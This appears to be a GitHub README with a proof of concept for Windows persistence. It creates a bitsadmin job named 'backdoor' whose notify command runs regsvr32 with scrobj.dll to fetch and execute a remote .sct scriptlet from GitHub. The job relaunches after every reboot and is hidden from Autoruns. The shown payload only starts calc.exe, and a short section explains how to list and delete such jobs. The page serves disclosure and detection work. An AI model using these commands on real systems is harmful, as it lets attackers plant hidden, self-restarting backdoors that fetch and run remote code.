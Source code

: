 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

Author: 3gstudent@3gstudent

License: BSD 3-Clause

### POC

(1) First we should have the administrator's right.

(2) Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3) Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4) What's more,after we restart the system,the command to start a calc.exe runs again and again.


### Impact of the issue

Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

### Detect

Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```

### More deatils:

http://drops.wooyun.org/tips/15692

《Use bitsadmin to maintain persistence and bypass Autoruns》

